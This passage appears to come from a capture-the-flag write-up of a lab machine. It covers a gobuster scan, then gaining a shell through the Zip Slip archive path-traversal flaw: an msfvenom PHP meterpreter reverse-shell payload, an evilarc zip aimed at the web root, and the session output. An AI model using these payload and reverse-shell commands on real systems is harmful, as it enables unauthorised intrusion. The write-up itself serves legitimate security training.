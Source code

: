 ```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.10.101:8080

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.101:8080/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2019/05/06 21:23:44 Starting gobuster
=====================================================
=====================================================
2019/05/06 21:24:03 Finished
=====================================================
```

### Getting a shell with Zip Slip

There's a wirespread arbitrary file overwrite vulnerability called Zip Slip that affects multiple projects, including Java. The gist of it is we can craft a malicious zip file  that when extracted will place the content to an arbitrary location of our choosing. Normally using file traversal characters would be forbidden but the vulnerability here allow such characters to be processed by Java. In this case, we want to place a reverse shell payload somewhere on the webserver where we can access it and trigger it.

Details on the vulnerability can be found here: [https://github.com/snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability)

To generate the zip files, I used the [https://github.com/ptoomey3/evilarc](https://github.com/ptoomey3/evilarc) python tool:

```
# msfvenom -p php/meterpreter/reverse_tcp -o met.php LHOST=10.10.14.23 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1112 bytes
Saved as: met.php
```

```
# python evilarc.py -f met.zip -o unix -p "../../../../../../var/www/html" met.php
Creating met.zip containing ../../../../../../../../../../../../../../var/www/html/met.php
```

After creating the archive, I uploaded it then triggered the meterpreter payload by browsing to it `/met.php`

```
[*] Started reverse TCP handler on 10.10.14.23:4444
msf5 exploit(multi/handler) > [*] Encoded stage with php/base64
[*] Sending encoded stage (51106 bytes) to 10.10.10.101
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.101:46874) at 2019-05-06 21:41:05 -0400

meterpreter > shell
Process 1180 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Aogiri:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
